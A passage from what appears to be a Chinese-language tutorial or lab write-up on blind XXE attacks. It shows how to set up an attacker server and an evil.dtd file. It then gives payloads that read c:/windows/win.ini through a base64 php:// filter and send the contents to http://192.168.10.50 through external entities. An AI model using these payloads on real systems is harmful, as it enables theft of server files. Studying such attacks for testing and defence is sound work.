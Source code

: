 ![img](assets/Jfw6mIlSQsxGjzr.jpg) 

### 4.2.3.**构建payload**

准备一台攻击服务器，当然本地的使用虚拟机即可，并且开启服务器的访问日志。在根目录下创建一个evil.dtd文件。

payload：

```xml
<!ENTITY % all

"<!ENTITY % send SYSTEM 'http://192.168.10.50/?data=%file;'>"

\>

%all;

然后构建攻击payload。

payload：

<!DOCTYPE updateProfile [

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/win.ini">

<!ENTITY % dtd SYSTEM "http://192.168.10.50/evil.dtd">

%dtd;

%send;

]>
```
